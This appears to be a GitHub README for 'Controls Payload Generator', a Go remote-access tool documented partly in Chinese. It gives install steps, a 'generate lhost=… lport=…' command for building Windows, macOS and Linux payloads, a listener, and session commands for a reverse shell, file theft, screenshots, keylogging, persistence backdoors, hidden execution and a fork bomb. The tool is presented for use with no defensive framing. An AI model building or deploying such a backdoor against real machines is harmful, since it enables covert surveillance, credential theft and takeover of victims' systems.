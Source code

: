 <!--<p align="center">
  <img src="https://github.com/1os4r/Controls/blob/master/content/logo.png">
</p>
-->

<h1 align="center">Controls Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
</p>

<p align="center">
  Controls用来生成控制远程操作系统的Poc。
</p>

## Install
```bash
$ go get github.com/1os4r/Controls
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/1os4r/Controls
$ go run main.go
```

## How to Use

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成控制程序 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=test --windows`)
`lhost=`    |指定目标ip
`lport=`    |指定目标端口
`fname=`    |指定输出文件名称
`--windows` |目标系统为``` Windows```
`--macos`   |目标系统为 ```Mac OS```
`--linux`   |目标系统为 ```Linux```
`listen`    |从本地的一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定目标屏幕
`openurl`               |打开指定```URL```
`bomb`                  |内存炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话

## Features

| 作用                 |  Win  |  MacOS  |  Linux |
|:-------------------------|:-------:|:------:|:-----:|
| `Reverse Shell`          |    X    |    X   |   X   |
| `Download File`          |    X    |    X   |   X   |
| `Upload File`            |    X    |    X   |   X   |
| `Screenshot`             |    X    |    X   |   X   |
| `Keylogger`              |    X    |        |       |
| `Persistence`            |    X    |        |       |
| `Open URL`               |    X    |    X   |   X   |
| `Get OS Info`            |    X    |    X   |   X   |
| `Fork Bomb`              |    X    |    X   |   X   |
| `Run Hidden`             |    X    |        |       |
